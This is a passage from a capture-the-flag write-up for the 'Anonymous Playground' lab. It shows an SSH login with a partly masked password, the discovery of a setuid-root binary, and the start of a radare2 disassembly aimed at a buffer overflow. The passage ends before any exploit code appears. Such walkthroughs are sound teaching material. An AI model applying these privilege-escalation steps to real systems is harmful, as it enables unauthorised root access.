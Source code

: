 The final result was magna password to access ssh on the target host.

```
m3dsec@local:~/anonymousplayground.thm$ ssh magna@10.10.0.166
magna@10.10.0.166's password: mag***********ant
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-109-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep 29 10:59:19 UTC 2020

  System load:  0.0                Processes:           118
  Usage of /:   22.9% of 19.56GB   Users logged in:     1
  Memory usage: 37%                IP address for eth0: 10.10.0.166
  Swap usage:   0%


3 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 29 08:12:22 2020 from 10.9.123.226
magna@anonymous-playground:~$ id
uid=1001(magna) gid=1001(magna) groups=1001(magna)
```


<h2 id="Internal Enumeration">Internal Enumeration</h2>

once inside, we start enumerating the target internally, we noticed some valuable stuff that may lead us to get root, therefore compromise the whole system.


<br>

<h3 id="Internal Enumeration">Binary Exploitation - Buffer Overflow:</h3>

As we move forward, we got a binary file in magna home folder with some special permissions.
```
magna@anonymous-playground:~$ ls -lat hacktheworld
-rwsr-xr-x 1 root root 8528 Jul 10 01:47 hacktheworld
```

The file is taking input from the user.
```
magna@anonymous-playground:~$ ./hacktheworld
Who do you want to hack? CIA
magna@anonymous-playground:~$ 
```

To understand the functionality of this binary we had to disassemble it, what took our attention are 2 functions, `main` and `call_bash`
```nasm
[0x004006d8]> pdf @main
            ; DATA XREF from entry0 @ 0x40058d
            ;-- rip:
┌ 56: int main (int argc, char **argv, char **envp);
│           ; var int64_t var_50h @ rbp-0x50
│           ; var int64_t var_44h @ rbp-0x44
│           ; var int64_t var_40h @ rbp-0x40
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           0x004006d8      55             push rbp
│           0x004006d9      4889e5         mov rbp, rsp
```